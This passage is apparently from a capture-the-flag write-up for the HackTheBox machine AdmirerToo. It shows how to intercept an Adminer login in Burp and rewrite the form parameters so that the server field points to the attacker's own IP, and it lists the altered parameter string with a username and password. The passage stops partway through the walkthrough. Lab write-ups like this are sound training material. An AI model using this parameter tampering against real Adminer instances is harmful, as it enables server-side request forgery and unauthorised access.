 Secondly the exploit shows you to change server to your attack machines IP, for our form we need to change the parameter **auth[server]** which is the equivalent.

So our altered parameters look like this:

```text
auth[driver]=elastic&auth[server]=10.10.16.95&auth[username]=admirer_ro&auth[password]=1w4nn4b3adm1r3d2!&auth[db]=admirer&auth[permanent]=1
```

URL encode that and replace in Burp so it looks like this:

![admirertoo-altered-request](/assets/images/2022-02-28-22-50-10.png)

Click forward and you'll see a GET request in Burp:

![admirertoo-get-request](/assets/images/2022-02-28-22-53-33.png)

Click forward again and you'll see the page looks like this instead of the db admin screen we saw before:
